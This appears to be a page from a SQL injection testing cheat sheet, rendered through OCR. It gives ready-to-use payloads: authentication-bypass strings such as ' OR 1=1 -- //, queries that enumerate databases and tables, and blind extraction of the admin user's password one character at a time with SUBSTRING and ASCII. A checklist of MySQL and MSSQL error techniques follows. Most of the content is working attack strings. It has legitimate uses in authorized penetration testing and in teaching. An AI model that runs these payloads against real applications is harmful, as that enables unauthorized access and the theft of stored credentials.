 #### Basic Pattern Structure
```
[QUOTE_ESCAPE] [LOGIC_OPERATOR] [CONDITION] [INJECTION_POINT] [COMMENT]

Examples:
' OR 1=1 IN (SELECT @@version) -- //
" OR 1=1 IN (SELECT table_name FROM information_schema.tables) #
' OR 1=1 AND (SELECT SUBSTRING(@@version,1,10)) -- //
```

#### Advanced Pattern Techniques
```sql
-- Substring extraction (character by character)
' OR 1=1 AND (SELECT SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))='a' -- //

-- Length determination
' OR 1=1 AND (SELECT LENGTH(password) FROM users WHERE username='admin')=32 -- //

-- Character-by-character extraction
' OR 1=1 AND (SELECT ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)))=97 -- //
```

---

### Error-Based SQLi Testing Checklist

#### Initial Testing
- [ ] Test single quote (`'`) for SQL errors
- [ ] Test double quote (`"`) for SQL errors  
- [ ] Test backslash (`\`) for escaping errors
- [ ] Test semicolon (`;`) for statement termination
- [ ] Test comment syntax (`--`, `#`, `/* */`)

#### Authentication Bypass Testing
- [ ] `' OR 1=1 -- //`
- [ ] `' OR 'a'='a' -- //`
- [ ] `admin' OR 1=1 -- //`
- [ ] `' OR 1=1 #`
- [ ] `1 OR 1=1 -- //` (for numeric fields)

#### Information Extraction Testing
- [ ] Database version extraction
- [ ] Current user extraction
- [ ] Database name extraction
- [ ] Table enumeration
- [ ] Column enumeration
- [ ] Data extraction

#### Advanced Error Techniques
- [ ] MySQL: EXTRACTVALUE, UPDATEXML, EXP functions
- [ ] MSSQL: CAST, CONVERT errors
- [ ] Substring extraction methods
- [ ] Character-by-character extraction

---